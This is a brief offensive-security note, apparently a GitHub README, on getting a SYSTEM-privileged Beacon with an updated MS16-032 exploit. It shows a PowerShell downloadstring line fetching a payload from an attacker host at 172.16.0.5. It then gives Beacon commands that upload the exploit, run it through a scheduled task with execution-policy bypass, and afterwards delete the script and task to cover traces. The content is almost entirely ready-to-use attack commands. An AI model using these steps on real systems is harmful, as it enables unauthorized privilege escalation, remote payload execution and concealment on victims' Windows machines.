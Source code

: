 ### Updated Exploit ms16-032 to get a Beacon back

You need a unpriviledged Shell/Beacon on the target. Don't forget to change the exploit for your correct ListenerName 
```
... downloadstring('http://172.16.0.5:80/a')) ...
```
### Get a Beacon with System Priviledges
```
beacon> cd C:\Windows\Temp
beacon> upload /root/tools/files/ms16-032_beacon.ps1

Now create a schtasks to run your exploit:
beacon> shell schtasks /Create /TN UpdateSRV /SC once /ST 10:10 /TR "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -exec bypass C:\Windows\Temp\ms16-032_beacon.ps1"
System beacon calls back :)

Delete Beacon:
beacon> shell del C:\Windows\Temp\ms16-032_beacon.ps1

Delete Task:
beacon> shell schtasks /Delete /TN UpdateSRV /F
```
